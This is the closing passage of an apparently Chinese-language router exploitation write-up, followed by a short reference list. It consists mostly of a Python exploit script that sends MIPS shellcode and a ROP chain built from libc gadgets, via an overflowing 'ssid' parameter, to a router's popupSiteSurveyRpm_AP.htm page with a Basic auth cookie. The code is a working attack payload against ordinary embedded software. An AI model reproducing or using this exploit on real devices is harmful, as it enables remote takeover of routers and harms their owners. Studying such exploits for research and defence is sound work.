 ```
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"
shellcode+="\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"
shellcode+="\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"

s0=p32(0x11111111)
s1=p32(g2+libc_base) # break 
s2=p32(sleep+libc_base)

payload= "/%0A"*0x55 +2*'x'+s0 +s1 +s2
payload+=p32(g1+libc_base)  
payload+='x'*28
payload+=p32(g4+libc_base) #s1
payload+=p32(0x33333333) #s2
payload+=p32(g3+libc_base) #ra
payload+='x'*24
payload+=shellcode



def exp(path,cookie):
    headers = `{`
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
                "Cookie":"Authorization=Basic`{`cookie`}`".format(cookie=str(cookie))`}`

    params = `{`
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.unquote(payload)
        `}`
    url="http://10.211.55.8:80/`{`path`}`/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers,timeout=10)
    print (resp.text)

exp("FMHSNOEAAJAKZBNA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```



## 参考

[Linux系统调用Hook姿势总结](https://blog.csdn.net/tianxuhong/article/details/50974400)

[https://www.anquanke.com/post/id/203486](https://www.anquanke.com/post/id/203486)

[https://www.youtube.com/watch?v=0_GsX2xhngU](https://www.youtube.com/watch?v=0_GsX2xhngU)

[https://ktln2.org/2020/03/29/exploiting-mips-router/](https://ktln2.org/2020/03/29/exploiting-mips-router/)
